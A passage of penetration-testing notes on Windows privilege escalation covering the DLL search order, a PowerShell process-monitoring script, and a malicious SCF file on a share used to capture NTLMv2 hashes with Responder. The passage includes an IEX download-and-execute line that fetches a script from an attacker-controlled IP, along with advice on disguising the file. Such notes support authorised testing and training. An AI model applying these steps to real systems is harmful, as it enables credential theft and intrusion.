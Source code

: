 - The following listing shows the standard search order taken from the Microsoft Documentation:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

### Additional Techniques
#Additional_Technique
#### Interacting with Users

**Monitoring for Process Command Lines**

- Creating procmon.ps1 : 

```powershell
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}

```

- Running Monitor Script :

```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

- Tools to analyse Traffic :
https://github.com/DanMcInerney/net-creds

 **SCF on a File Share**

A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation. We may be able to capture a user's password hash and use the cleartext password to escalate privileges on the target host, within the domain, or further our access/gain access to other resources.

**Malicious SCF File**

In this example, let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.
